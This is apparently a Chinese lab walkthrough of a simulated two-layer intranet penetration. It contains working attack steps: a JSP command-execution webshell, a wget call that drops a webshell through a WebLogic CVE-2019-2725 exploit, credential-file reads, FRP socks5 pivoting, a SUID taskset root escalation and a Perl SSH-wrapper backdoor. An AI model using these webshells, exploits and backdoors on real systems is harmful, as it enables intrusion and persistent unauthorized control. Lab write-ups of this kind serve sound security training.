# 蚁景网安实验室-双层内网渗透虚拟仿真实战-先知社区

> **来源**: https://xz.aliyun.com/news/16429  
> **文章ID**: 16429

---

# 环境说明

```
本实验提供了一个综合性的多层内网渗透测试虚拟仿真实验环境，通过对外网WEB网站功能的分析测试，寻找到从管理后台弱口令到利用管理后台应用部署功能上传恶意木马，从而获得外网WEB服务器权限的攻击路径，然后通过对WEB服务器的信息收集，寻找到进入内网的途径，从而对内部网络中的主机进行测试，利用内网主机中的远程命令执行漏洞获得内网主机权限，并寻找到进入其他内部网段的路径，通过搭建多层socks代理通道，实现从外网直接访问多层内网中的主机，并结合收集到的账号密码信息，对目标多层内网中的主机进行攻击测试，并拿下其普通用户权限，利用其普通权限寻找到获得root权限的方法，成功得到主机最高权限，并最终，通过留下的SSH服务后门实现对目标服务器的持久化控制。
```

在线环境：<https://www.yijinglab.com/>

# 拓扑图



# 信息收集

## IP地址扫描



确定目标IP为10.1.1.121

## 全端口扫描



访问靶机8080端口，发现目标是一个Tomcat服务，版本为`8.0.43`：


## 目录扫描

```
dirb http://10.1.1.121:8080
```



发现Tomcat管理后台页面

```
http://10.1.1.121:8080/manager/html
http://10.1.1.121:8080/host-manager/html
```

但是需要进行认证才能访问。



# Tomcat漏洞利用

直接使用弱口令tomcat:tomcat进入后台，也可以尝试暴力破解



往下拉，找到Tomcat项目部署功能，此功能允许用户通过上传war包，来部署自己的应用项目



利用蚁剑的jsp木马，制作生成包含jsp木马的ant.war包：

```
mkdir ant
cp ant.jsp ant
cd ant
jar -cvf ant.war .
```


利用管理后台上传部署war包的功能，上传部署制作的含有恶意木马的ant.war包

war包部署后会在Tomcat的WEB根目录创建解压生成一个ant文件夹，war包中的恶意

木马`ant.jsp`在ant文件夹下，因此我们上传的WebShell地址为：

```
http://10.1.1.121:8080/ant/ant.jsp
```

# Getshell

地址：<http://10.1.1.121:8080/ant/ant.jsp，密码：ant>



查看当前主机所在内网IP段，及当前主机，所运行的服务信息



查看所有用户信息，可能存在因配置不当导致的特权用户及用户的密码信息等

```
cat /etc/passwd
cat /etc/shadow
```

查看存放在系统内的敏感文件，如包含用户密码、服务访问密码等敏感信息的文件

```
find / -name *pass* -type f
find / -name *admin* -type f
```

查看flag，可以发现前四个flag

```
grep -r "flag*"
```

# 内网渗透

## 第一层内网

### 信息收集

上传工具，使用ladon64工具扫描探测`172.22.0.0/24`网段，判断内网存活主机`IP`

```
cd /tmp
chmod +x ladon64
./ladon64 172.22.0.0/24 icmpscan
```

得到内网网段存活主机`IP`：`172.22.0.20`



```
./ladon64 172.22.0.0/24 t3scan
```



发现内网网段存活主机172.22.0.22开放了7001端口，服务为weblogic，版本号为10.3.6.0

### FRP建立Socks5代理

通过蚁剑的文件管理功能，上传相关工具文件到tomcat服务器的`/tmp`目录

#### Tomcat修改frpc配置文件

修改frpc配置文件如下：

```
[common]        # 理解为注释，对应配置的说明注释
server_addr = 10.1.1.119    # frps服务端IP
server_port = 7000          # frps服务端端口

[socks5]        # 理解为注释，对应配置的说明注释
type = tcp              # 代理数据协议类型
plugin = socks5         # 启用frp的socks5代理插件
remote_port = 5000      # socks5代理端口
```

#### 攻击机运行frps

```
./frps -c frps.ini      # 通过-c选项指定frps配置文件
```

服务默认监听在本地的7000端口，如果想要更改监听端口，可以通过更改frps.ini配置文件来实现。

```
[common]
bind_addr = 10.1.1.119
bind_port = 7000 # frps服务绑定监听的端口
```

#### Tomcat运行frpc

在获得shell的Tomcat服务器上执行frpc客户端

```
./frpc -c frpc.ini      # 通过-c选项指定frpc配置文件
```

在Tomcat服务器上执行的`frpc`客户端与攻击机上启动的`frps`服务端，建立连接之后，会创建一个`socks5`代理通道，在`frps`服务端所在攻击机，监听一个代理端口。使用哪个端口作为`socks5`代理端口由`frpc.ini`配置文件中的参数`remote_port`指定，这里我们指定的是`5000`端口。

#### 测试代理是否挂成功

##### proxychains

使用代理工具`proxychains`通过建立的`socks5`代理通道访问内网存活主机`IP`。

编辑修改`proxychains`配置文件

```
vim /etc/proxychains.conf
```

在文件末尾注释掉默认有的`socks4`配置项，添加如下配置：

```
socks5 127.0.0.1 5000
```

给nmsp挂上代理扫描端口

```
proxychains nmap -Pn -sT -T4 172.22.0.20

-Pn：禁ping
-sT：tcp连接探测端口
-T4：加快请求连接速度
```



给浏览器插件也挂上socks5代理，成功访问weblogic服务



### Weblogic漏洞利用

这里他是vnc连接，没办法上传一把梭工具，只能利用里面给的工具。

通过`WeblogicScan.py`发现目标存在`CVE-2019-2725`漏洞

目标存在`CVE-2019-2725`漏洞

```
proxychains python3 weblogic-CVE-2019-2725.py 10.3.6 http://172.22.0.20:7001/ whoami
```

执行成功

weblogic-CVE-2019-2725.py传马默认用的get请求，所以蚁剑连不上

```
<%@ page language="java" contentType="text/html; charset=GBK"
    pageEncoding="UTF-8"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
    <body>
        <%
        if ("admin".equals(request.getParameter("pwd"))) {
            java.io.InputStream input = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
            int len = -1;
            byte[] bytes = new byte[4092];
            out.print("<pre>");
            while ((len = input.read(bytes)) != -1) {
                out.println(new String(bytes, "GBK"));
            }
            out.print("</pre>");
        }
    %>
    </body>

</html>
```

但是`Tomcat`和`Weblogic`服务器在同一个网段，可以互相访问，在`Weblogic`服务器上可以通过如下`URL`访问`ant.txt`文件

```
http://172.22.0.20:7001/bea_wls_internal/demo.jsp?pwd=admin&cmd=wget http://172.22.0.10:8080/ant/ant.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/ant.jsp
```

地址：<http://172.22.0.20:7001/bea\_wls\_internal/ant.jsp，密码：ant>

打开一个新的蚁剑窗口并配置`socks5`代理，找到 `AntSword > 代理设置 > 手动设置代理 > 选择socks5代理协议 > 填写代理服务器IP > 填写代理服务端口 > 保存`。注意，保存时会提示重启中国蚁剑。

### Getshell



查看文件，获取WebLogic服务器信息，如：所在IP段、开放的服务、敏感信息等

```
whoami                  # 查看当前用户权限
ip a                    # 查看当前主机IP 172.26.0.20
ps -elf                 # 查看当前主机运行的服务
find / -name *pass*     # 查找主机系统中包含pass字符的所有文件名
```

在root目录下发现一个pass.txt，打开是一串base64编码，解码得到一队账号密码。

simadmin:dev@simadmin

上传ladon64检测工具，获取内网存活主机IP

```
cd /tmp
chmod +x ladon64
./ladon64 172.26.0.0/24 icmpscan
```

发现内网存活主机IP：172.26.0.30

## 二层内网

Weblogic服务器不仅可以访问到Tomcat服务器，也可以访问到172.26.0.30主机，因此我们可以利用它来实现访问在二层的内网网段172.26

上传frpc、frpc.ini到Weblogic服务器

```
[common]
server_addr = 172.22.0.10
server_port = 7000

[socks5_2]
type = tcp
plugin = socks5
remote_port = 6666
```

上传frps、frps.ini到Tomcat服务器

```
[common]
bind_addr = 172.22.0.10
bind_port = 7000
```

给proxychains加一行代理

```
socks5 172.22.0.10  6666
```

通过`socks`代理工具，代理`nmap`流量到内网，对二层内网主机开放的端口进行端口扫描

```
proxychains nmap -Pn -sT -T4 172.26.0.30
```

发现开放远程连接`SSH`端口`22`

普通用户`simadmin`的账号密码进行登录，成功登录，得到内网`dev`服务器访问权限

清空known\_hosts文件内容：

```
echo > /root/.ssh/known_hosts
```

通过`proxychains`工具代理SSH连接二层内网`dev`服务器：

### Getshell

```
proxychains ssh simadmin@172.26.0.30
```



### 提权

查找系统中所有具有`SUID`权限的文件：

```
find / -perm -u=s -type f
```

利用具有`SUID`权限的`taskset`从`simadmin`普通用户权限提权到`root`权限；

更多的`SUID`权限利用可查看：<https://gtfobins.github.io/>

```
ls -la /usr/bin/taskset
whoami                  # simadmin
taskset 1 /bin/bash -p
whoami                  # root
```



# 权限维持

### 12. 权限持久化（后门）

为了能够持续的对目标进行控制，我们可以通过在目标机器上留下一个后门，方便我们下次继续控制目标，并得到`root`权限。


利用`SSH Server Wrapper`技术，在`dev`服务器留下`SSH`登录后门，

```
cd /usr/sbin/
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..LF/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
```

